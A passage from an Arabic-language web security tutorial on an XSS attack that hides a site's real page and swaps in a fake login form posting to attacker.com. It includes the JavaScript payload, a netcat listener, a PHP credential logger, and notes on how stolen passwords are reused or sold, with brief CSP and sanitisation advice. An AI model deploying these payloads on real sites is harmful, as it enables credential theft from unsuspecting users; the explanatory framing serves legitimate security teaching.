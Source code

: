 #### 6. **إخفاء الصفحة الحقيقية واستبدالها بفورم وهمي**
   - **إزاي بتحصل؟**
     - السكربت بيخفي محتوى الصفحة الحقيقي (زي الـ body) وبيحط فورم وهمي مكانه.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       document.body.style.display = "none";
       var fakePage = document.createElement("div");
       fakePage.innerHTML = '<form action="http://attacker.com/steal" method="POST">' +
                            '<h2>Please Login Again</h2>' +
                            '<input type="text" name="username" placeholder="Username">' +
                            '<input type="password" name="password" placeholder="Password">' +
                            '<input type="submit" value="Login">' +
                            '</form>';
       document.body.appendChild(fakePage);
       ```
       - `style.display = "none"`: بيخفي الصفحة الحقيقية.
       - `appendChild`: بيضيف الفورم الوهمي.
     - **إعداد سيرفر المهاجم**:
       - netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
         ```php
         <?php
         file_put_contents("stolen_credentials.txt", "User: " . $_POST['username'] . ", Pass: " . $_POST['password'] . "\n", FILE_APPEND);
         header("Location: http://vulnerable.com");
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع تغيير محتوى الصفحة.
     - نظف المدخلات عشان تمنع السكربتات.

---

### إزاي المهاجم بيستخدم البيانات بعد ما يسرقها؟
لو المهاجم سرق اليوزرنيم والباسورد:
1. **يدخل على حساب الضحية**:
   - يستخدم البيانات عشان يسجل دخول على الموقع.
2. **يجرب البيانات على مواقع تانية**:
   - لو الضحية بيعيد استخدام نفس الباسورد، المهاجم بيجربها على مواقع زي الإيميل أو البنك.
3. **يبيع البيانات**:
   - يبيع البيانات في الـ Dark Web لمهاجمين تانيين.
4. **يستخدمها في هجمات تانية**:
   - يعمل هجمات Social Engineering أو Phishing تاني باستخدام البيانات.

---
